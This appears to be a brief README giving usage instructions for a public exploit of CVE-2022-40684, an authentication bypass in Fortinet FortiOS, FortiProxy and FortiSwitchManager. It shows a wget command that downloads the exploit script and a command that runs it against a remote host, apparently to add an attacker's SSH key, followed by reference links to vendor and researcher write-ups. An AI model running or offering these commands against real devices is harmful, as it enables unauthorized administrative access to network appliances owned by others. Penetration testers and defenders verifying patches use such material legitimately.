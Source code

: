 ### Download exploit
```
wget https://raw.githubusercontent.com/horizon3ai/CVE-2022-40684/master/CVE-2022-40684.py
```

### Run
```
python3 CVE-2022-40684.py -t <rhost> --username <user> --key-file ~/.ssh/<addKey>
```

### References
https://www.horizon3.ai/fortios-fortiproxy-and-fortiswitchmanager-authentication-bypass-technical-deep-dive-cve-2022-40684
https://www.horizon3.ai/fortinet-iocs-cve-2022-40684/

